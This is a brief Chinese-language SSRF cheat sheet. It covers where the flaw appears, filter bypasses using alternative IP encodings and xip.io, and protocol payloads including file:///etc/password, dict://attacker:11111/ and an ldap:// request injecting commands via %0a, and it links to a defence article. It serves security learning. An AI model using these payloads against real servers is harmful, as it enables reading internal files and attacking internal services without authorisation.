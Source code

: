 #### ssrf用处

1. 探测内网信息,用协议探`ftp%26ip={ip}%26port={port}`
2. 攻击内网或本地其他服务
3. 穿透防火墙

#### 漏洞处

1. 能够对外发起网络请求的地方
2. 请求远程服务器资源的地方
3. 数据库内置功能
4. 邮件系统
5. 文件处理
6. 在线处理工具

举几个例子：

1. 在线识图，在线文档翻译，分享，订阅等，这些有的都会发起网络请求。
2. 根据远程URL上传，静态资源图片等，这些会请求远程服务器的资源。
3. 数据库的比如mongodb的copyDatabase函数，这点看猪猪侠讲的吧，没实践过。
4. 邮件系统就是接收邮件服务器地址这些地方。
5. 文件就找ImageMagick，xml这些。
6. 从URL关键字中寻找，比如：source,share,link,src,imageurl,target等。

#### 绕过姿势

1. `http://example.com@127.0.0.1`
2. 利用IP地址的省略写法绕过,[::]绕过localhost
3. DNS解析 http://127.0.0.1.xip.io/  可以指向任意ip的域名：xip.io
4. 利用八进制IP地址绕过,利用十六进制IP地址,绕过利用十进制的IP地址绕过


#### 利用协议
> https://www.secpulse.com/archives/70471.html

接受ua为curl的时候，支持的协议有
![](https://www.secpulse.com/wp-content/uploads/2018/04/15235056451.png)

使用`curl -v http://xx.com/ssrf.php?url=sxxx`
```
file://
ssrf.php?url=file:///etc/password
Dict://
dict://<user-auth>@<host>:<port>/d:<word>
ssrf.php?url=dict://attacker:11111/
SFTP://
ssrf.php?url=sftp://example.com:11111/
TFTP://
ssrf.php?url=tftp://example.com:12346/TESTUDPPACKET
LDAP://
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
Gopher://
```

#### 漏洞修复
> https://www.leavesongs.com/PYTHON/defend-ssrf-vulnerable-in-python.html
